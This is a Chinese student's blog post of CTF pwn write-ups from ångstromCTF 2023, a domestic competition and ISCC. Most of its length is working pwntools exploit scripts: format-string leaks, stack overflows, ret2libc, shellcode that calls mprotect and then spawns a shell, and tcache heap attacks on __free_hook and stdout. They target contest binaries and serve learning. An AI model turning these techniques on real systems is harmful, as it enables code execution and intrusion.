

有段时间没写博客了，一部分原因是懒，学到了的一些东西懒得整理懒得写上来；另一方面是因为最近收获比较少，期中考试是一个借口，我可以怪他占用我的时间，对吧。但主要还是自己的问题；而且最近心态也容易受外物影响，生活中也已经很久没张嘴说很多话了。一些做的事情和想法大概就在这里写写。
ångstromCTF 2023
美国的一个比较简单的比赛，你看，我把这都放上来了，可见我最近是真的闲吧
Queue
格式化字符串
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 from pwn import *context.log_level = "debug" context.terminal = ["kitty" ] context.arch = "amd64" p = remote("challs.actf.co" , "31322" ) elf = ELF("./queue" ) stack_off = 14 payload = "%{}$lx|" .format (stack_off) payload += "%{}$lx|" .format (stack_off + 1 ) payload += "%{}$lx|" .format (stack_off + 2 ) payload += "%{}$lx|" .format (stack_off + 3 ) payload += "%{}$lx|" .format (stack_off + 4 ) payload = payload.encode() p.sendlineafter(b"What did you learn in class today?" , payload) p.interactive()
Gaga系列
gaga0
基本的栈溢出，有后门
1 2 3 4 5 6 7 8 9 from pwn import *p=remote("challs.actf.co" ,"31300" ) context.log_level='debug' payload=b'a' *0x48 +p64(0x401236 ) p.sendafter("Your input: " ,payload) p.interactive()
第一部分flag：actf{b4by’s_
gaga1
还是基本的栈溢出，后门加了检查，但是可以直接跳到检查之后
1 2 3 4 5 6 7 8 9 10 from pwn import *context.log_level='debug' p=remote("challs.actf.co" ,"31301" ) win1=0x401236 rdi=0x4013b3 rsi_r15=0x4013b1 payload=b'a' *0x48 +p64(rdi)+p64(4919 )+p64(rsi_r15)+p64(16705 )+p64(0 )+p64(win1) p.sendafter("Your input: " ,payload) p.interactive()
第二部分flag：actf{b4by’s_f1rst_pwn!_
gaga2
ret2libc
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 from pwn import *from LibcSearcher import *context.log_level='debug' p=remote("challs.actf.co" ,"31302" ) elf=ELF("./gaga2" ) libc=ELF("./libc-2.31.so" ) puts_got=elf.got['puts' ] puts_plt=elf.plt['puts' ] ret=0x40124A rdi=0x4012b3 main=elf.sym['main' ] payload=b'a' *0x48 +p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) p.sendlineafter("Your input: " ,payload) puts_addr=u64(p.recvuntil(b"\x7f" )[-6 :].ljust(8 ,b'\x00' )) libc_base=puts_addr-libc.sym['puts' ] print ("libc_base = " ,hex (libc_base))system=libc_base+libc.sym['system' ] binsh=libc_base+libc.search(b'/bin/sh' ).__next__() payload=b'a' *0x48 +p64(rdi)+p64(binsh)+p64(ret)+p64(system) p.sendlineafter("Your input: " ,payload) p.interactive()
actf{b4by’s_f1rst_pwn!_3857ffd6bfdf775e}
Leek
100次的堆溢出覆盖绕过检查
1 2 3 4 5 6 7 8 9 10 11 from pwn import *context.log_level='debug' p=remote("challs.actf.co" ,"31310" ) gdb.attach(p) for i in range (100 ): p.sendlineafter("Your input (NO STACK BUFFER OVERFLOWS!!): " ,b'a' *0x3f ) p.sendlineafter("So? What's my secret? " ,b'a' *0x1f ) p.sendlineafter("Say what you want: " ,b'a' *0x18 +p64(0x31 )) p.interactive()
flag: actf{very_133k_of_y0u_777522a2c32b7dd6}
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from pwn import *context.log_level='debug' p=remote("challs.actf.co" ,"31320" ) p.recvuntil(b"solution: " ) win=0x40130B pow = input ()p.sendline(pow .encode()) payload=b'a' *0x20 +p64(0x404500 )+p64(win) p.sendlineafter("Amount: " ,b'100' ) p.sendlineafter("Contents: " ,payload) p.interactive()
Flag: actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}
汇编简单开发&&高难度分析
这是我拉给wxj的创新实践的一泡东西，就是糊弄一下他的，这个简单开发是抄的hgame week1 的逆向题目。不过后面那道还是比较有意思的，算是我近期遇到过感觉比较妙的一道题。
开篇废话
关于汇编语言的利用其实是一门很高深的艺术，古早的程序员利用0和1写程序，后来的程序员用汇编语言写程序，直到高级语言的出现，才有了现在的我们写的程序。
简单开发书写
如下汇编实现了一个简单的异或程序
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 _enc proc near push ebp mov ebp , esp push ecx mov [ebp -4 ], 0 jmp short loc_401176loc_40116D: mov eax , [ebp -4 ]add eax , 1 mov [ebp -4 ], eax mov ecx , [ebp +8 ]push ecx call _strlen add esp , 4 cmp [ebp -4 ], eax jge short loc_40119Dmov edx , [ebp +8 ]add edx , [ebp -4 ]movsx eax , byte ptr [edx ]xor eax , 33h mov ecx , [ebp +8 ]add ecx , [ebp -4 ]mov [ecx ], al jmp short loc_40116Dloc_40119D: mov esp , ebp pop ebp retn _enc endp
赛题中的 艺术性 利用书写
在pwn题中与汇编关系最大的无非是不能翻编译的时候需要自己逆向分析，或是有的题目在text段有一些汇编代码不能被解析成函数或者C代码需要自己undefine和define函数，以及有的难一点的shellcode类题目需要手搓精简shellcode的部分，这种题目山海关的师傅写过一篇文章叫做the art of shellcode，https://mp.weixin.qq.com/s/onpGzz2uzSYKf09yvgb3uA，写的很好，非常值得学习。
这里我以之前遇到的一道shellcode的利用，自己编写0x16字节的shellcode实现控制5个寄存器、传7个参数、调用两个函数为例，展示一下高阶shellcode利用中，汇编语言的写法和艺术
先看exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 from pwn import *p=remote("node2.yuzhian.com.cn" ,"38337" ) context(log_level='debug' ,arch='amd64' ,os='linux' ) shellcode=''' shl edi,12 mov dx, 0x7 mov ax, 10 syscall cdq mov esi, edi xor edi, edi xor eax, eax syscall ''' p.send(asm(shellcode)) p.send(b'\x90' *0xff +asm("shl rsp, 12; add rsp, 0x500;" +shellcraft.sh())) p.interactive()
题目截图我懒得放了，做题逻辑就是我上面说的“自己编写0x16字节的shellcode实现控制5个寄存器、传6个参数、调用两个函数”，然后再利用basic getshell的汇编就可以解题。
1 2 3 4 5 6 7 8 9 shl edi ,12 mov dx , 0x7 mov ax , 10 syscall cdq mov esi , edi xor edi , edi xor eax , eax syscall
首先我们因为题目里给的read限制长度为0x16，非常短，以及程序里没有/bin/sh地址，而且题目没给libc。那么想法便是自己用汇编再实现一个长写入的read，既然写入之后要能执行，那么还需要mprotect函数改内存权限。因此思路就是实现read(0,,)和mprotect(,,0x7)，题目在main结束前把rax到r15这几个寄存器都赋值成了一个很大的数0x9961，而题目给的内存地址是0x9961000
结尾
综上所述，汇编既底层又高级。
关于docker
这算是以往一直想学的一个东西，其实也就是一个基本的杂项技能，近期会玩了几个指令就也算会用了。
ctf_xinetd：
在目录下起镜像：docker build -t "<tag_name>" .docker run -d -p "0.0.0.0:pub_port:9999" -h "<tag_name>" --name="<name>" namedocker psdocker stop <tag_name>docker rm <tag_name>docker rmi <tag_name>
das_docker
安恒的docker就更不需要脑子了docker-compose up -d
日车比赛天津站pwn题
三道pwn，一道签到两道堆，AK了也没进决赛，真难
pwn_heap

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 from pwn import *context(log_level="debug" ) p=remote("123.127.164.29" ,"21524" ) elf=ELF("./easy_heap" ) libc=ELF("./libc.so.6" ) puts_got=elf.got['puts' ] puts_plt=elf.plt['puts' ] def add (idx,size,content ): p.sendlineafter(b": " ,b'1' ) p.sendlineafter(b"size :" ,str (size).encode()) p.sendlineafter(b"index :" ,str (idx).encode()) p.sendlineafter(b"content: " ,content) def show (idx ): p.sendlineafter(b": " ,b'2' ) p.sendlineafter(b" index:" ,str (idx).encode()) def delete (idx ): p.sendlineafter(b": " ,b'3' ) p.sendlineafter(b"index: " ,str (idx).encode()) for i in range (1 ,9 ): add(i,0xff ,b'a' *0xff ) for i in range (1 ,9 ): delete(9 -i) show(1 ) libc_base=u64(p.recvuntil(b"\x7f" )[-6 :].ljust(8 ,b'\x00' ))-0x3ebca0 print ("libc_base=" ,hex (libc_base))system_addr = libc_base + libc.sym.system free_hook = libc_base + libc.sym.__free_hook print ("free_hook = " ,hex (free_hook))print ("system = " ,hex (system_addr))add(9 ,0x40 ,b'' ) add(10 ,0x40 ,b'' ) for i in range (11 ,18 ): add(i,0x40 ,b'aaa' ) for i in range (11 ,18 ): delete(i) delete(9 ) delete(10 ) delete(9 ) for i in range (18 ,25 ): add(i,0x40 ,b'bbb' ) add(25 ,0x40 ,p64(free_hook)) add(26 ,0x40 ,b'' ) add(27 ,0x40 ,b'' ) add(28 ,0x40 ,p64(system_addr)) add(29 ,0x40 ,b'/bin/sh\x00' ) delete(29 ) p.interactive()
pwn_inuse
add:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from os import systemfrom pwn import *context.log_level = "debug" context.terminal = ["kitty" ] context.arch = "amd64" p = remote("123.127.164.29" , "21542" ) elf = ELF("./inuse" ) libc = ELF("./libc-2.31.so" ) def add_note (size ): p.sendlineafter(b"5.exit\n" , b"1" ) p.sendlineafter(b"size:" , str (size).encode()) def show_note (index ): p.sendlineafter(b"5.exit\n" , b"2" ) p.sendlineafter(b"id:" , str (index).encode()) def delete_note (index ): p.sendlineafter(b"5.exit\n" , b"3" ) p.sendlineafter(b"id:" , str (index).encode()) def edit_note (index, content ): p.sendlineafter(b"5.exit\n" , b"4" ) p.sendlineafter(b"id:" , str (index).encode()) p.send(content) add_note(0x500 ) add_note(0x10 ) delete_note(0 ) show_note(0 ) p.recvline() libc_base = u64(p.recv(6 ).ljust(0x08 , b"\x00" )) - 0x1ebbe0 success("libc_base = " + hex (libc_base)) system_addr = libc_base + libc.sym.system stdout = libc_base + libc.sym._IO_2_1_stdout_ _IO_file_jumps = libc_base + libc.sym._IO_file_jumps add_note(0x50 ) add_note(0x50 ) add_note(0x10 ) delete_note(2 ) delete_note(3 ) edit_note(3 , p64(stdout)) add_note(0x50 ) add_note(0x50 ) edit_note(6 , b"sh\x00" ) add_note(0x60 ) add_note(0x60 ) add_note(0x10 ) delete_note(7 ) delete_note(8 ) edit_note(8 , p64(_IO_file_jumps + 0x38 )) add_note(0x60 ) add_note(0x60 ) edit_note(11 , p64(system_addr)) p.interactive()
pycc
iscc随便做了两道玩玩，没营养，硬套东西
pwn1
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 from pwn import *context.log_level='debug' p=remote("59.110.164.72" ,"10000" ) libc=ELF("./libc-2.23.so" ) offset=0x3c48e0 rdi=0x4008c3 ogg=0xf03a4 binsh=libc.search(b"/bin/sh" ).__next__() system=libc.sym['system' ] p.recvuntil("Here is a tip: 0x" ) stdin=int (p.recv(12 ),16 ) libc_base = stdin-offset print ("stdin = " ,hex (stdin))print ("libc_base = " ,hex (libc_base))p.sendafter("input the username:" ,b'a' *28 +p32(365696460 )) p.sendafter("input the password:" ,b'a' *0x28 +p64(libc_base+ogg)) p.interactive()
pwn2
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from pwn import *from ctypes import *p=remote("59.110.164.72" ,"10001" ) context.log_level='debug' libc = cdll.LoadLibrary('./libc.so.6' ) libc.srand(0 ) payload1=b'\x00' *0x16 p.sendafter("Now you can make your first wish" ,payload1) p.sendlineafter("Please give me a number!" ,str (libc.rand()%9 +1 )) p.sendlineafter("Now you can make your second wish!" ,b'%11$p' ) p.recvuntil("0x" ) canary=int (p.recv(16 ),16 ) print ("canary==" ,hex (canary))p.sendlineafter("Please give me a number!" ,str (0x2 )) payload2=b'a' *0x28 +p64(canary)+p64(0 )+p64(0x4011F5 ) p.sendafter("Now you can make your final wish!" ,payload2) p.interactive()
没写wp就懒得放题目了，看exp大概也能看出题目逻辑。
如果您喜欢此博客或发现它对您有用，则欢迎对此发表评论。 也欢迎您共享此博客，以便更多人可以参与。 如果博客中使用的图像侵犯了您的版权，请与作者联系以将其删除。 谢谢 ！